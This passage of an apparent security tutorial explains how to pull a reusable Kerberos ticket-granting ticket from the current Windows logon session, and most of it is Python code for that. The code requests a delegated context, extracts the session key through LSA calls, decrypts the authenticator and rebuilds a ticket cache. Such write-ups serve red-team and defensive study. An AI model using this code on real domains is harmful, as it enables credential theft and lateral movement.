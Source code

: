 ```python
def get_tgt(target):
    ctx = AcquireCredentialsHandle(None, "kerberos", target, SECPKG_CRED.OUTBOUND)
    res, ctx, data, outputflags, expiry = InitializeSecurityContext(
        ctx,
        target,
        token=None,
        ctx=ctx,
        flags=ISC_REQ.DELEGATE | ISC_REQ.MUTUAL_AUTH | ISC_REQ.ALLOCATE_MEMORY,
    )

    if res == SEC_E.OK or res == SEC_E.CONTINUE_NEEDED:
        lsa_handle = LsaConnectUntrusted()
        kerberos_package_id = LsaLookupAuthenticationPackage(lsa_handle, "kerberos")
```

The further call to `LsaCallAuthenticationPackage` allows us to request raw ticket material associated with the current logon session which contains a **session key**:

```python
def extract_ticket(lsa_handle, package_id, luid, target_name):
    message = retrieve_tkt_helper(target_name, logonid=luid)
    ret_msg, ret_status, free_ptr = LsaCallAuthenticationPackage(
        lsa_handle, package_id, message
    )

    ticket = {}
    if ret_status != 0:
        raise WinError(LsaNtStatusToWinError(ret_status))
    if len(ret_msg) > 0:
        resp = KERB_RETRIEVE_TKT_RESPONSE.from_buffer_copy(ret_msg)
        ticket = resp.Ticket.get_data()
        LsaFreeReturnBuffer(free_ptr)

    return ticket
```

Now, the operator has all the necessary information blobs to construct another copy of the Kerberos cache (from `AS-REQ` all the way down to `KRB-CRED`) in **.kirbi** or **.ccache** formats and re-use it for their own needs:

```python
raw_ticket = extract_ticket(lsa_handle, kerberos_package_id, 0, target)
key = Key(raw_ticket["Key"]["KeyType"], raw_ticket["Key"]["Key"])
token = InitialContextToken.load(data[0][1])
ticket = AP_REQ(token.native["innerContextToken"]).native

cipher = _enctype_table[ticket["authenticator"]["etype"]]
dec_authenticator = cipher.decrypt(key, 11, ticket["authenticator"]["cipher"])
authenticator = Authenticator.load(dec_authenticator).native
if authenticator["cksum"]["cksumtype"] != 0x8003:
    raise Exception("Bad checksum")
checksum_data = AuthenticatorChecksum.from_bytes(
    authenticator["cksum"]["checksum"]
)

if ChecksumFlags.GSS_C_DELEG_FLAG not in checksum_data.flags:
    raise Exception("Delegation flag not set")
cred_orig = KRB_CRED.load(checksum_data.delegation_data).native
dec_authenticator = cipher.decrypt(key, 14, cred_orig["enc-part"]["cipher"])

# Reconstructing ccache with the unencrypted data
te = {}
te["etype"] = 0
te["cipher"] = dec_authenticator
ten = EncryptedData(te)
```

[//]: # (2024-01-11)